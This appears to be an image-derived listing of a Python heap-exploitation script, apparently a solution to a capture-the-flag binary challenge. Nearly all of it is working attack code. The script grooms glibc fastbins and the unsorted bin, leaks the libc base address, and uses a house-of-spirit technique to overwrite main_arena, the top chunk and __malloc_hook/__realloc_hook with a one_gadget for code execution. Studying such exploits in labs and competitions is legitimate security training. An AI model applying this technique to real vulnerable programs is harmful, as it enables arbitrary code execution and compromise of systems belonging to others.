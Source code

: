 ```python
for i in range(15):
    allocate(0x28)
    update(i, 'C' * 0x28)
for i in range(15):
    delete(i)

for i in range(7):
    allocate(0x18) # 0 - 6
    update(i, str(i) * 0x17)
# now top->size == 0x21
allocate(0x18) # 7

# unsortedbin: size == 0x2b0 (0x30 * 15 - 0x20)
update(7, '7' * 0x18) # make it 0x200
allocate(0x18) # 8
allocate(0x18) # 9
for i in range(10, 15):
    allocate(0x48)
delete(9)
for i in range(1, 7):
    delete(i)
delete(0) # linked to fastbin
delete(8) # linked to fastbin
# now top->size == 0x31
allocate(0x38) # 0

# leak libc
libc_base = u64(view(10)[:8]) - libc_main_arena - 0x60
logger.info("libc = " + hex(libc_base))

# house of spirit
allocate(0x48) # 1
allocate(0x48) # 2 == 11
allocate(0x18) # 3
delete(3)
update(12, p64(0x51))
allocate(0x18) # 3 (this will write 0x51 to main_arena+16 == fastbin[0])

delete(2)
update(11, p64(libc_base + libc_main_arena + 0x8))
allocate(0x48) # 2

# overwrite fastbin[1]
allocate(0x48) # 4 == main_arena + 0x18
payload = b''
payload += p64(libc_base + libc_main_arena + 0x50)
payload += b'\x00' * 0x38
payload += p64(0x31)
update(4, payload)

# overwrite top
allocate(0x28) # 5
payload = p64(libc_base + libc.symbol("__malloc_hook") - 0x28)
payload += p64(0)
payload += p64(libc_base + libc_main_arena + 96) * 2
payload += p64(libc_base + libc_main_arena + 112)
update(5, payload)

# overwrite __realloc_hook & __malloc_hook
allocate(0x58) # 6
payload = b'\x00'*0x10
payload += p64(libc_base + libc_one_gadget) # __realloc_hook
payload += p64(libc_base + libc.symbol("svc_run") + 0x42) # __malloc_hook
```